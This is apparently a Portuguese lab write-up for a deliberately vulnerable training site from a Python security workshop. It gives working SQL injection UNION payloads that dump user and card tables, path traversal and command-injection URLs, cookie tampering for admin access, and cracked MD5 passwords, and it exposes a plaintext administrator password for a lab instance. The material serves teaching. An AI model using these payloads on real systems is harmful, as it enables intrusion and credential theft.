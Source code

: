 # Infraestrutura

### Windows

Region: us-east-1

Instance id: This is the Windows client with tools for the Python_SafeSite Security Workshop

AMI name: SecLabClient

Description: This is the Windows client with tools for the Python_SafeSite Security Workshop

Administrator Password: mBp4t;Jvg6!dskzt3DCHa@w7H?l5.?VE

AMI id: ami-01127273b979fe92b

### Linux

Region: us-east-1

Instance id: i-0458f66b29d690451

AMI name: SecLabServer

Description: This is the Linux server with the vulnerable site for the Python_SafeSite Security Workshop

AMI id: ami-01127273b979fe92b



# Falhas e Ataques

#### Página Inicial: SQL Injection

Ao colocar uma aspa dupla (") no campo de busca, o site quebra. Isso mostra que o site é vulnerável a ataques SQL Injection. Um agravante é que o desenvolvedor deixou a página de Debug habilitada, mostrando detalhes do erro e inclusive a engine (SQLite3). Com a informação do SQL é possível compor um ataque que seja adicionado à cláusula where da query:

- Original: 
  
  - SELECT * FROM posts WHERE Content LIKE "%"%";

- Alteradas:
  
  - SELECT * FROM posts WHERE Content LIKE "%X" union select 1, 2 --%"; 
    
    - X" union select 1, 2 --
    - X" union select name, sql from sqlite_master where type='table' --
    - X" union select name || ': ' || card, password from secrets --
    - X" union select login || ': ' || email, password from logins --

Obtivemos os hashes dos logins, que podem ser facilmente quebrados no [https://crackstation.net/](https://crackstation.net/):

084e0343a0486ff05530df6c705c8bb4: guest@guest
084e0343a0486ff05530df6c705c8bb4

21232f297a57a5a743894a0e4a801fc3: admin@admin
0192023a7bbd73250516f069df18b500

263bce650e68ab4e23f28263760b9fa5: maria@gmail.com
3a1f9e20f1beac9b81a1e18e08b7f442

dc599a9972fde3045dab59dbd1ae170b: carlos@hotmail.com
a07bda8fd5e39462b4c3d860a36f6b4d

| Hash                             | Tipo | Senha       |
| -------------------------------- | ---- | ----------- |
| 084e0343a0486ff05530df6c705c8bb4 | md5  | guest       |
| 0192023a7bbd73250516f069df18b500 | md5  | admin123    |
| 3a1f9e20f1beac9b81a1e18e08b7f442 | md5  | unicornio   |
| a07bda8fd5e39462b4c3d860a36f6b4d | md5  | corinthians |

#### Sobre Nós: Path Traversal, Remote Command Execution

A página Sobre Nós claramente exibe o conteúdo de arquivos texto que estão no servidor. Ao clicar em um deles, a URL fica da seguinte forma:

[http://localhost:8000/about?doc=termo_de_uso](http://localhost:8000/about?doc=termo_de_uso)

Vamos explorar esse parâmetro:

- ?doc=x: Tela em branco

- doc=/etc/passwd: Tela em branco

Provavelmente não vemos nada porque esse campo recebe o nome do arquivo e faz prepend de um caminho e append de uma extensão. Logo, termo_de_uso deve virar algo como /pasta/termo_de_uso.txt. Se isso for verdade, podemos testar com diretórios relativos + null bytes e também com múltiplos nomes de arquivos.

- [http://localhost:8000/about?doc=../../../../../etc/passwd%00](http://localhost:8000/about?doc=../../../../../etc/passwd%00)  Quebra por causa do null byte.
- [http://localhost:8000/about?doc=/etc/hostname /etc/fstab /etc/passwd /etc/mtab /etc/hosts](http://localhost:8000/about?doc=/etc/hostname%20/etc/fstab%20/etc/passwd%20/etc/mtab%20/etc/hosts) mostra o conteúdo de todos os arquivos, menos o primeiro e o último.
- Será que neste contexto ele repassa o path para o shell? Se sim, podemos tentar executar comandos... [http://localhost:8000/about?doc=../../../../../etc/passwd%20$(echo%20/etc/hosts)%20x](http://localhost:8000/about?doc=../../../../../etc/passwd%20$(echo%20/etc/hosts)%20x). Game over!

#### Contato: CSRF + XSS (Firefox)

Estes ataques XSS não funcionam no Chrome.

No primeiro formulário é possível executar um XSS, mas ele não é persistido.

No segundo, entretanto, ele é persistido, mas não é executado.

Para fazer o ataque, a vítima tem que clicar em um link feito para roubar a sessão ou capturar o browser, com um software como o Beef, por exemplo.

#### Cadastro: XSS, File Upload

Ao criar um usuário, é possível fazer o upload de um arquivo qualquer que não seja uma foto para o servidor. No caso de um site PHP, por exemplo, este arquivo pode ser uma shell que permita acesso remoto ao servidor.

#### Área Restrita: HTTP Brute Force

Com o THC-Hydra, Burp Suite ou OWASP ZAP é possível facilmente quebrar as senhas, já que não há um limitador de tempo.

#### Perfil: HTTP Brute Force

O mesmo que o item anterior.

#### Global: Cookie Tampering (or Poisoning)

Ao criar um usuário de testes chamado cleber com senha 12345, os seguintes cookies foram setados após o login:

- pyverysafeid: 5c675a11f4a8474c3d75ff158570850a (este é cleber em MD5)

- pyverysafelogin: ee11cbb19052e40b07aac0ca060c23ee (este é a palavra user)

Se o hash é a palavra user, o que acontece se eu mudar para admin em MD5?

21232f297a57a5a743894a0e4a801fc3 -> admin

Ao trocar o cookie e dar refresh, os privilégios da sessão são elevados instantaneamente!

#### Global: Directory Search

Como não há nenhum recurso que impeça múltiplos requests sequenciais, ferramentas como o DIRB, o Nikto e o ZAP podem fazer ataques fuzzy ou via listas para encontrar diretórios ocultos.

#### Status: Form Tampering (or Poisoning)

O diretório /status que só permite a execução de determinados comandos e apenas para o usuário admin, pode ser burlado via troca de parâmetros no request para que comandos sejam enviados diretamente ao servidor.
